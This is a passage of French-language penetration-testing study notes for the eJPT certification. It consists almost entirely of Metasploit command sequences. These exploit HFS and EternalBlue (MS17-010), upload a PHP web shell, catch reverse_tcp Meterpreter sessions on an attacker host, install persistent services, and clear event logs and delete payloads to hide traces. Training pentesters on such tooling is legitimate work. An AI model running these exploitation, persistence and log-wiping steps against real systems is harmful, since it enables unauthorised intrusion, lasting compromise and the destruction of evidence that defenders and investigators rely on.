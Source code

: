 ### Nettoyage des traces
```bash
# Dans Meterpreter
clearev                                 # Clear Event Logs

# Supprimer fichiers
rm /f C:\temp\payload.exe

# Supprimer service
execute -f sc -a "delete malicious_service"
```

---

## 🎯 8. Cas d'usage spécifiques eJPT

### Scénario 1: HFS → Service Persistence
```bash
# 1. Exploitation
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS target; set LHOST attacker; exploit

# 2. Persistence
background
use exploit/windows/local/persistence_service
set SESSION 1; exploit

# 3. Test reconnexion
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST attacker; set LPORT 4444; exploit -j
```

### Scénario 2: SMB → Service Persistence
```bash
# 1. EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target; set LHOST attacker; exploit

# 2. Persistence service
background
use exploit/windows/local/persistence_service
set SESSION 1; exploit

# 3. Vérification
sessions -l
# Reboot target et attendre reconnexion
```

### Scénario 3: Web Upload → Service Persistence
```bash
# 1. Upload shell PHP
# 2. Handler pour shell
use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp

# 3. Upgrade to meterpreter puis persistence
background
use exploit/windows/local/persistence_service
set SESSION 1; exploit
```

---